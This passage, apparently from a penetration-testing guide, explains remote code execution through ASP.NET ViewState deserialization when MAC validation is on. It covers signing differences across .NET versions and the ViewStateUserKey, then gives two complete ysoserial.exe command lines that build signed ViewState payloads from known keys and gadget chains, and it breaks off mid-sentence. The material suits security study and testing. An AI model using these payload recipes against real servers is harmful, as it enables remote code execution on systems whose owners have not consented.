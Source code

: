 ## RCE with enabled ViewState MAC Validation

In older versions (**prior to 4.5**), .NET Framework uses the **`TemplateSourceDirectory`** property [\[15\]](https://docs.microsoft.com/en-us/dotnet/api/system.web.ui.control.templatesourcedirectory) when **signing** a serialised object. **Since** version **4.5** however, it uses the **`Purpose`** strings in order to create the hash. Both of these mechanisms **require the target path from the root of the application directory** and the **page name**. These parameters can be **extracted from the URL**.

Applications that use an **older framework** and enforce ViewState encryption can **still accept a signed ViewState without encryption**. This means that **knowing the validation key and its algorithm is enough** to exploit a website. It seems ViewState is encrypted by default **since version 4.5** even when the `viewStateEncryptionMode` property has been set to `Never`. This means that in the latest .NET Framework versions the **decryption key and its algorithm are also required** in order to create a payload.

The ASP.NET ViewState contains a property called `ViewStateUserKey` [\[16\]](https://docs.microsoft.com/en-us/previous-versions/dotnet/articles/ms972969\(v=msdn.10\)) that can be used to mitigate risks of cross-site request forgery (CSRF) attacks [\[4\]](https://www.owasp.org/index.php/Anti\_CSRF\_Tokens\_ASP.NET). Value of the **`ViewStateUserKey`** property (when it is not `null`**) is also used during the ViewState signing** process. Although not knowing the value of this parameter can stop our attack, **its value can often be found in the cookies or in a hidden input** parameter ([\[17\]](https://software-security.sans.org/developer-how-to/developer-guide-csrf) shows an implemented example).

### ViewState YSoSerial.Net plugins

In YSoSerial.Net master and YSoSerial.Netv2 you can find a plugin ([**this**](https://github.com/pwntester/ysoserial.net/blob/master/ysoserial/Plugins/ViewStatePlugin.cs) and [**this**](https://github.com/pwntester/ysoserial.net/blob/v2/ysoserial/Plugins/ViewStatePlugin.cs)) to exploit this technique when all the information is known.

#### **For .NET Framework >= 4.5:**

```bash
.\ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "echo 123 > c:\windows\temp\test.txt" --path="/somepath/testaspx/test.aspx" --apppath="/testaspx/" --decryptionalg="AES" --decryptionkey="34C69D15ADD80DA4788E6E3D02694230CF8E9ADFDA2708EF43CAEF4C5BC73887" --validationalg="HMACSHA256" --validationkey="70DBADBFF4B7A13BE67DD0B11B177936F8F3C98BCE2E0A4F222F7A769804D451ACDB196572FFF76106F33DCEA1571D061336E68B12CF0AF62D56829D2A48F1B0"
```

#### **For .NET Framework <= 4.0 (legacy):**

_The decryptionKey and its algorithm are not required here:_

```bash
.\ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "echo 123 > c:\windows\temp\test.txt" --apppath="/testaspx/" --islegacy --validationalg="SHA1" --validationkey="70DBADBFF4B7A13BE67DD0B11B177936F8F3C98BCE2E0A4F222F7A769804D451ACDB196572FFF76106F33DCEA1571D061336E68B12CF0AF62D56829D2A48F1B0" --isdebug
```

_Apart from using different gadgets, it is possible to use the `__VIEWSTATEGENERATOR` parameter **instead of providing the paths**:_
